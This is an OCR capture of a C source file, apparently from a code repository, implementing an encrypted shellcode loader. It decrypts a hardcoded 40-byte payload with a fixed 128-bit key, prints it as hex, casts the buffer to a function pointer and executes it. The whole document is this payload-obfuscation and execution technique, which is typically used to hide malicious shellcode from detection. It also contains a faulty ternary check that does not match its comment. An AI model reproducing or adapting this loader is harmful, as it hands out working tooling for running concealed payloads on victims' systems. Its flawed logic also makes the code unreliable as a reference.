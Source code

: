 ```c
    // 8 is the number of Bytes (8 * 8 == 64 bits)
    blockcount = strlen(shellcode) / 8;

    // Conditionnal ternary operator
    // --> Check if the blockcount == 0
    //     --> if so: blockcount == 1
    //     --> else: blockcount = blockcount
    blockcount = 0 ? 1 : blockcount;

    // For each block of 64 bits the shellcode is encrypted with the given key
    while (i < blockcount) {
        decrypt((uint32_t *)shellcode + (i * 2), key);
        i += 1;
    }
}


/* This function is used to get the shellcode length and print it
:param char *shellcode -> the shellcode used:
*/
void printShellcode(char *shellcode)
{
    int i;
    // Print the shellcode length
    printf("Shellcode length = %d\n", strlen(shellcode));
    // Loop for each element in the shellcode array
    for(i = 0; i < strlen(shellcode); i++)
    {
        // Print their hexadecimal values
        printf("\\x%02x", (unsigned char)(int)shellcode[i]);
    }
    // Add a newline
    printf("\n");
}


int main()
{
    // 128 bits decrypt key (32 * 4 bits)
    uint32_t key[4] = {0xAAAAAAAA, 0xBBBBBBBB, 0xCCCCCCCC, 0xDDDDDDDD};

    // Shellcode to dencrypt
    unsigned char shellcode[] = "\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff";

    // Print the encrypted shellcode
    printShellcode(shellcode);

    // Decrypt the shellcode
    decryptBlocks(shellcode, key);

    // Convert the shellcode variable into a pointer to a function	
    int (*ret)() = (int(*)())shellcode;
    printf("Executing Shellcode....\n\n\n");
    // Execute the function
    ret();
    
    return 0;
}
```
